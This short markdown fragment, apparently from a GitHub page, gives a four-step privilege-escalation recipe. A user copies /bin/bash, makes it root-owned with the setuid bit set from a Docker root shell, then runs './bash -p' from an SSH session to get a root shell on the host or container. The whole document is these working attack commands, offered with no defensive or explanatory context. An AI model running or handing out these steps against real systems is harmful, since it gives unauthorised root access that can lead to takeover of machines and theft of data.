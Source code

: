 ### STEPS

#### 1) cp /bin/bash . (In a user ssh session) (That requires the ssh running internally of the container)

#### 2) chown  root:root bash (In docker root shell)

#### 3) chmod 4755 bash

#### 4) SSH back in, then execute bash for root ./bash -p (user ssh session)
